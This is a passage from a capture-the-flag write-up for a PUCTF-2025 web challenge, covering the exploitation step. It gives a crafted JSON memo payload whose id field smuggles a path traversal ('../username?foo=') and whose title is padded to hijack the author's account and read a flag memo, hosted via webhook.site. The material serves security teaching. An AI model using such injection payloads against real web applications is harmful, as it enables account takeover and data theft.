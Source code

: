 ## Exploitation

Now that we have a clear chain of vulnerabilities, we can takeover the author's account and read the flag memo!

- Host our own malicious JSON memo, where attribute `id` is `../username?foo=`, attribute `title` is `username=AAA[...]AAA`

```json
[{"id":"../username?foo=","title":"username=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA","body":"","approved":0,"visibility":1,"username":"anything"}]
```

To host this payload, I used [webhook.site](https://webhook.site/). You could use other services like [requestrepo.com](https://requestrepo.com/).

![](https://github.com/siunam321/CTF-Writeups/blob/main/PUCTF-2025/images/Pasted%20image%2020250501195341.png)
